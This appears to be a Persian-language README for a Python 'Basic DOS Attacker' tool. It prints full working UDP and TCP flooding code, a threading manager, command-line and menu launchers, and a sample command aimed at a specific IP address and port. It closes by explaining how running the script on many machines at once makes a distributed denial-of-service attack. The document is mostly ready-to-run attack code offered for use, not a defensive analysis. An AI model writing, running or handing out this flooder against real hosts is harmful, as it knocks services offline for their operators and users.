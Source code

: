 # Basic DOS Attacker

این یک اسکریپت ساده و پایه ای جهت انجام حملات محروم سازی از سرویس است.
این برنامه از طریق ایجاد سیل هایی از بسته ها و ارسال آن ها به سرور مقصد باعث بالا رفتن لود سرور و در نهایت از کار افتادگی آن می شود.

## نصب ابزار مورد نیاز

این پروژه برای اجرا تنها به پایتون ۳ نیاز دارد. در این پروژه تنها از پکیج های داخلی پایتون استفاده شده است و نیازی به نصب پکیج بیرونی نیست.
لییست پکیج های داخلی به کار رفته در آن به صورت زیر است:
```bash
socket
threading
random
time
argparse
```

## اجرای اسکریپت

برای اجرای اسکریپت کافی است دستور زیر را اجرا کنید:
```bash
python main.py -a 188.121.110.10 -p 8085
```

همچنین برای مشاهده راهنمای برنامه و آرگومان های ورودی می توانید از دستور زیر استفاده کنید:
```bash
python main.py -h
```

برای خاتمه اسکریپت می توانید از سیگنال زیر استفاده کنید:
```bash
ctrl + c
```

آرگومان های ورودی به صورت زیر تعریف شده است:
```bash
usage: main.py [-h] -a ADDRESS [-p PORT] [-c CHOICE] [-m PACKETS] [-t THREADS]

Basic DOS Attacker

optional arguments:
  -h, --help  show this help message and exit
  -a ADDRESS  Hostname or IP address
  -p PORT     Port, default 80
  -c CHOICE   UDP or TCP, default UPD
  -m PACKETS  Num of packets in a socket, default 10
  -t THREADS  Num of threads, default 2
```

همچنین یک منو تعاملی با رابط ترمینال نیز فراهم شده است. برای اجرای آن می توانید از دستور زیر استفاده کنید:
```bash
python menu.py
```

## توضیح اسکریپت

نحوه ایجاد جریان یو دی پی در کد زیر وجود دارد که در ادامه توضیح داده خواهد شد:
```python
def udp_flooder(thread_number, ip, port, packets):
    data = random._urandom(1024)
    s = None
    while True:
        try:
            # UDP = SOCK_DGRAM
            s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            address = (str(ip), int(port))
            for _ in range(packets):
                s.sendto(data, address)
            s.close()
            print(f"[{thread_number}] {packets} UDP packet sent")
        except (KeyboardInterrupt, socket.error):
            s.close()
            print(f"[{thread_number}] Error!")
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال یو دی پی است.
ابتدا یک داده با طول 1024 به صورت رندوم تولید می شود.
سپس در یک حلقه بی نهایت یک سوکت از نوع یو دی پی ساخته می شود.
با اتصال آی پی و پورت آدرس کامل به دست می آید.
سپس در اتصال سوکت به تعداد بسته های مطلوب بسته ارسال می کنیم.
در نهایت اتصال را می بندیم و لاگ آن را چاپ می کنیم.

نحوه ایجاد جریان تی سی پی در کد زیر وجود دارد که در ادامه توضیح داده خواهد شد:
```python
def tcp_flooder(thread_number, ip, port, packets):
    data = random._urandom(16)
    s = None
    while True:
        try:
            # TCP = SOCK_STREAM
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, port))
            s.send(data)
            for _ in range(packets):
                s.send(data)
            print(f"[{thread_number}] {packets} TCP packet sent")
            s.close()
        except (KeyboardInterrupt, socket.error):
            s.close()
            print(f"[{thread_number}] Error!")
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال تی سی پی است.
ابتدا یک داده با طول 16 به صورت رندوم تولید می شود.
سپس در یک حلقه بی نهایت یک سوکت از نوع تی سی پی ساخته می شود.
با اتصال آی پی و پورت آدرس کامل به دست می آید.
سپس اتصال تی سی پی برقرار می شود. مشاهده شد که در حالت تی سی پی نیاز به اتصال بود اما در یو دی پی اینطور نبود.
سپس در اتصال سوکت به تعداد بسته های مطلوب بسته ارسال می کنیم.
در نهایت اتصال را می بندیم و لاگ آن را چاپ می کنیم.

تابع زیر با گرفتن نوع اتصال تابع تولید کننده جریان را خروجی می دهد.
از این تابع برای انتخاب جریان ساز درون مدیر رشته های پردازشی استفاده خواهد شد:
```python
def flooder_selector(choice):
    if choice == "UDP":
        return udp_flooder
    elif choice == "TCP":
        return tcp_flooder
    else:
        return None
```

یک تابع برای مدیریت رشته های پردازشی ایجاد شده است:
```python
def thread_manager(threads, flooder, ip, port, packets):
    for i in range(threads):
        th = threading.Thread(target=flooder, daemon=True, args=(i, ip, port, packets))
        th.start()
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال است.
سپس به تعداد رشته های پردازشی مورد نیاز رشته حاوی جریان تولید می شود.
رشته های ساخته شده از نوع دیمن می باشند که در پشت صحنه رشته اصلی اجرا می شود و دارای اولویت کمتری نسبت به آن است. هنگامی که رشته اصلی از بین می رود تمامی رشته های دیمن نیز از بین خواهند رفت.

در نهایت یک تابع اصلی برای تجزیه آرگومان های ورودی و اجرای توابع بالا ایجاد شده است:
```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Basic DOS Attacker')
    parser.add_argument("-a", dest="address", required=True, help="Hostname or IP address")
    parser.add_argument("-p", dest="port", default=80, type=int, help="Port, default 80")
    parser.add_argument("-c", dest="choice", default="UDP", help="UDP or TCP, default UPD")
    parser.add_argument("-m", dest="packets", default=10, type=int, help="Num of packets in a socket, default 10")
    parser.add_argument("-t", dest="threads", default=2, type=int, help="Num of threads, default 2")
    args = parser.parse_args()

    ip = args.address
    port = args.port
    choice = args.choice
    packets = args.packets
    threads = args.threads

    flooder = flooder_selector(choice)
    thread_manager(threads, flooder, ip, port, packets)

    while True:
        time.sleep(2)
```
در انتهای این تابع یک حلقه بی نهایت ایجاد شده است تا رشته اصلی تمام نشود.
زیرا اگر این رشته تمام شود تمام زیر رشته های دیمن آن نیز خاتمه می یابند.

تابع منو نیز مشابه تابع بالا است اما به صورت تعامل از طریق ترمینال:
```python
if __name__ == '__main__':
    ip = str(input("Hostname or IP address: "))
    port = int(input("Port: "))
    choice = str(input("UDP or TCP: "))
    packets = int(input("Num of packets in a socket: "))
    threads = int(input("Num of threads: "))

    flooder = flooder_selector(choice)
    thread_manager(threads, flooder, ip, port, packets)

    while True:
        time.sleep(2)
```

## تبدیل به حالت توزیع شده
در صورتی که این اسکریپت به صورت همزمان و با ورودی های یکسان بر روی چندین ماشین اجرا شود تبدیل به یک حمله بسیار ساده توزیع شده محروم سازی از سرویس می شود.

DDoS Attack

## نتایج 
 
